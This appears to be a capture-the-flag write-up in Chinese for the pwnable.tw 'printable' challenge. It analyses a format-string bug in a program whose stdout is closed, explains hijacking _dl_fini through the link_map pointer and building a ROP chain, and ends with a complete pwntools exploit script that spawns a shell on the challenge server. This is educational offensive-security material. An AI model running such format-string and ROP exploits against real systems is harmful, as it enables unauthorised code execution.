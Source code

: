 # pwnable.tw-printable

根据pwnable.tw的规则，对于题解较少的题目不公开wp。

<!--more-->

## checksec

```shell
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

## IDA

**main**

```c
int __cdecl __noreturn main(int argc, const char **argv, const char **envp)
{
  char s[136]; // [rsp+0h] [rbp-90h] BYREF
  unsigned __int64 v4; // [rsp+88h] [rbp-8h]

  v4 = __readfsqword(0x28u);
  init_proc(argc, argv, envp);
  memset(s, 0, 0x80uLL);
  printf("Input :");
  close(1);
  read(0, s, 0x80uLL);
  printf(s);
  exit(0);
}
```

明显的格式化字符串漏洞，但是这里关闭了`stdout`。

首先，想办法进行leak，虽然关闭了`stdout`，但是我们可以修改其在bss段的FILE指针，使其指向`stderr`，这样就恢复了输出功能。

接着，输出是在第二次printf后才能显示的，所以要想办法进行二次利用，这里有一个很重要的点，在栈上残留着一个`ld.so`的指针：

```shell
pwndbg> p _rtld_global._dl_ns[0]._ns_loaded
$1 = (struct link_map *) 0x7ffff7ffe168
```

在exit的时候会执行dl_fini函数，里面有一段比较有趣的片段

```
<_dl_fini+819>: call   QWORD PTR [r12+rdx*8]
```

rdx固定为0，r12来自下面的代码片段

```
<_dl_fini+777>: mov    r12,QWORD PTR [rax+0x8]
<_dl_fini+781>: mov    rax,QWORD PTR [rbx+0x120]
<_dl_fini+788>: add    r12,QWORD PTR [rbx]
```

rbx指向的刚好就是栈上残留的ld.so的地址，因此我们可以控制[rbx]的值。r12默认指向的是fini_array，通过控制rbx，我们可以让r12指向bss，也就是我们可以劫持控制流了。

这段程序的源码，代码来自：/glibc/glibc-2.23/elf/dl-fini.c:128

```c
internal_function
_dl_fini (void)
{
  ...
  ElfW(Addr) *array =
    (ElfW(Addr) *) (l->l_addr
        + l->l_info[DT_FINI_ARRAY]->d_un.d_ptr);
  unsigned int i = (l->l_info[DT_FINI_ARRAYSZ]->d_un.d_val
        / sizeof (ElfW(Addr)));
  while (i-- > 0)
    ((fini_t) array[i]) ();
  ...
}
```

其中变量`l`就是我们的`_rtld_global._dl_ns[0]._ns_loaded`，原本`l->l_addr`为0，则`array`的值就是正常的，但是`l->l_addr`不为0的话则会使其发生偏移，我们则可以使其直接偏移到`bss`段上，使其直接运行`bss`段的地址，也即是`buf`，则我们就控制了程序流。

再次回到main的read函数，就可以利用格式化字符串泄露栈和libc的地址，这里发现，栈上有一个地址指向了`printf`的返回地址，我们修改其低字节，其实返回到main中的read处，就可以实现第三次利用。

第三次利用，采取的方式是向栈上写一个`system("/bin/sh\x00")`的rop片段，然后覆盖返回地址为四个pop，最后使程序跳转到rop上。（这个部分的调试非常的麻烦

## exp

```python
from pwn import *

context(arch = 'amd64' , os = 'linux', log_level='debug')
context.terminal = ['tmux', 'splitw', '-h']

leak = lambda name,addr: log.success('{0} addr ---> {1}'.format(name, hex(addr)))

bss = 0x601000
stdout = 0x601020
pop4 = 0x4009bc
pop_rdi = 0x4009c3

while True:
    p = remote('chall.pwnable.tw',10307)
    # p = process(binary,env={'LD_PRELOAD':'./libc_64.so.6'})

    payload = '%{}c%42$n'.format(0x248)
    payload+= '%{}c%14$n'.format(0x925-0x248)+'%{}c%15$hhn'.format(0x40-0x25)
    payload+= '%16$hhn'+'%{}c%17$hhn'.format(0x45-0x40)
    payload = payload.ljust(0x40,b'\x00')
    payload+= p64(bss)+p64(bss+2)+p64(stdout)+p64(stdout+1)
    p.sendafter('Input :',payload.ljust(0x80,b'\x00'))

    payload = '%23$p%60$p'+'%{}c%23$hn'.format((0x925)-(14*2))
    p.send(payload)
    try:
        res = p.recv(0x1000)
        if b'Segmentation fault' in res:
            p.close()
        else:
            leaks = res[:28].split(b'0x')[1:]
            break
    except:
        p.close()

stack_addr = int(leaks[0],16)+0x8
libc_addr = int(leaks[1],16)
libc_base = libc_addr-(0x20740+240)
system = libc_base+0x45390
binsh = libc_base+0x18c177
leak('stack ',stack_addr)
leak('libc base',libc_base)

payload = '%24$n'+'%{}c%21$hn'.format(0x925)+'%{}c%22$hn'.format(0x9bc-0x925)
payload+= '%{}c%23$hhn'.format(0x40-0xbc+0x100)

payload = payload.ljust(0x40,b'\x00')
payload+= p64(stack_addr-0x8)+p64(stack_addr+0x20)+p64(stack_addr+0x22)+p64(stack_addr+0x23)
p.send(payload.ljust(0x80,b'\x00'))

payload = '%{}c%18$hn'.format(0x9bc).ljust(0xc,b'\x01')+b'EOF\x00'
payload+= p64(pop_rdi)+p64(binsh)+p64(system)+p64(stack_addr-0x8)
p.send(payload.ljust(0x80,b'\x00'))

p.recvuntil('EOF')
p.interactive()
```

